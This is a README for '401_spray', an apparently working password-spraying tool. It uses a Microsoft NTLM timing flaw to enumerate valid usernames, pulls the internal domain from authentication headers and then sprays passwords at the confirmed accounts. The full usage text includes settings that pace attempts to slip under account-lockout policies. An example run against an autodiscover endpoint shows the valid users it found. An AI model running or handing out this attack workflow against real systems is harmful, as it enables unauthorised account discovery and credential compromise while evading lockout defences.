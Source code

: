 # 401_spray
password spraying tool that will check for username validation using the Microsoft CAS timing vulnerability found on endpoints using NTLM authentication. Original code can be found here: https://github.com/fang0654/401_spraying. 
Simply added the following abilities to the original code:
1) to check your username list for valid entries.
2) Obtain the internal domain name tied to the NTLM Authentication using the WWW-Authenticate Header (Only tried this with one target, your milage may vary).
3) Runs the password spraying attack using usernames identified as valid.
4) Seperates the password spraying attack and username validation using the -v and -c flags. 
5) Added some additional flag options so the user isn't forced to use --threads for example (-t can be used).


```python
usage: 401_spray.py [-h] -u USERNAMES -p PASSWORDS [-d DOMAIN] -U URL [-a ATTEMPTS] [-i INTERVAL] [--authtype {ntlm,basic}] [--proxy PROXY] [-t THREADS] [-o OUTPUT] [--add_response] [-v] [-c]

optional arguments:
  -h, --help            show this help message and exit
  -u USERNAMES, --usernames USERNAMES
                        List of usernames to attack
  -p PASSWORDS, --passwords PASSWORDS
                        List of passwords to try
  -d DOMAIN, --domain DOMAIN
                        Domain name to append. If not included, then domains will be assumed to be in username list.
  -U URL, --url URL     URL to authenticate against
  -a ATTEMPTS, --attempts ATTEMPTS
                        Number of attempts to try before sleeping. If your lockout policy is 5 attempts per 10 minutes, then set this to like 3
  -i INTERVAL, --interval INTERVAL
                        Number of minutes to sleep between attacks. If your lockout policy is per 10 minutes, set this to like 11
  --authtype {ntlm,basic}
                        Authentication type - basic or ntlm. Note: You can't use a proxy with NTLM
  --proxy PROXY         Proxy server to route traffic through
  -t THREADS, --threads THREADS
                        Number of threads
  -o OUTPUT, --output OUTPUT
                        File to write successful pairs to
  --add_response        Add response times to output
  -v, --validate_users  Validates the list of usernames. By default will also run password spraying attack.
  -c, --check_creds     Runs the password spraying attack
```

Example output:
```Python
./401_spray.py -v -U https://autodiscover.<target>/autodiscover/autodiscover.xml -p /users/bortiz/Documents/Projects/passwords.txt -u /users/bortiz/Documents/Projects/user_names.txt -t 50 -o /users/bortiz/Documents/Projects/valid_creds.txt -i 60 

New password spraying run
Spraying 1 passwords, then sleeping for 60.
URL: https://autodiscover.<target>/autodiscover/autodiscover.xml
[*] Performing incorrect Domain Test
[+] auth creds: random\aaaaaaz, time elapsed: 0:00:00.384964
[+] auth creds: anything1\bbbbbbz, time elapsed: 0:00:00.372382
[+] auth creds: bread_man\ccccccz, time elapsed: 0:00:04.997914
[*] Performing correct Username & Domain Test
[+] auth creds: domain\Guest, time elapsed: 0:00:00.373984
[+] auth creds: domain\Administrator, time elapsed: 0:00:00.374277
[+] auth creds: domain\krbtgt, time elapsed: 0:00:00.371279
[*] Performing incorrect Username Test
[+] auth creds: domain\aaaaaaz, time elapsed: 0:00:15.357264
[+] auth creds: domain\bbbbbbz, time elapsed: 0:00:10.670948
[+] auth creds: domain\ccccccz, time elapsed: 0:00:15.460272
[+] Avg time: 0:00:13.829495
[*] Threshold: 0:00:08.297697
[+] VALID USER FOUND: domain\JS2563, time elapsed: 0:00:00.522217
[+] VALID USER FOUND: domain\JS2661, time elapsed: 0:00:00.404065
[+] VALID USER FOUND: domain\JS2756, time elapsed: 0:00:00.430944
[+] VALID USER FOUND: domain\JS4491, time elapsed: 0:00:00.422542
[+] VALID USER FOUND: domain\JS4541, time elapsed: 0:00:00.411033
[+] VALID USER FOUND: domain\JS5517, time elapsed: 0:00:00.642477
```
